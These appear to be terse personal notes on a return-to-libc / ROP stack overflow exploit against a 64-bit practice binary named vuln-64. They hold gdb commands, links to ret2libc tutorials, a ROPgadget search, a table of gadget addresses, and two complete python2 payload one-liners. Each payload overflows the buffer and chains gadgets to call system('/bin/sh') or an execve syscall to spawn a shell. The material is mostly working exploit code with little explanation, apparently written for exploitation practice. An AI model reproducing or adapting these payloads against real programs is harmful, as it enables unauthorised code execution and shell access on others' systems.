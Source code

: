 p system
info proc map

https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc
https://ret2rop.blogspot.com/2018/08/return-to-libc.html

ROPgadget --binary vuln-64 | grep rdi

run < <(python2 -c "from struct import pack; print '\x90'*215+'AAAA'+'A'*12+pack('<Q', 0x7ffff7dbfcd6)+pack('<Q', 0x7ffff7dc03e5)+pack('<Q', 0x7ffff7f6e698)+pa  
ck('<Q', 0x7ffff7de6d60)")

0x0000000000108b13 : pop rdx ; pop rcx ; pop rbx ; ret
0x0000000000045eb0 : pop rax ; ret
0x0000000000029db4 : syscall

0x7ffff7ddbeb0 ; pop rax ; ret
0x7ffff7dc03e5 ; pop rdi ; ret
0x7ffff7dc1e51 ; pop rsi ; ret
0x7ffff7dbfdb4 ; syscall
0x7ffff7f6e698 ; "/bin/sh"
0x7ffff7de6d60 ; system
0x7ffff7e810f0 ; execve
0x7ffff7e9eb13 ; pop rdx ; pop rcx ; pop rbx ; ret

```sh
run < <(python2 -c "from struct import pack; print '\x90'*215+'AAAA'+'A'*12+pack('<Q', 0x7ffff7ddbeb0)+pack('<Q', 0x3b)+pack('<Q', 0x7ffff7dc03e5)+pack('<Q', 0x7ffff7f6e698)+pack('<Q', 0x7ffff7dc1e51)+pack('<Q', 0x0)+pack('<Q', 0x7ffff7e9eb13)+pack('<Q', 0x0)+pack('<Q', 0x0)+pack('<Q', 0x0)+pack('<Q', 0x7ffff7dbfdb4)")
```

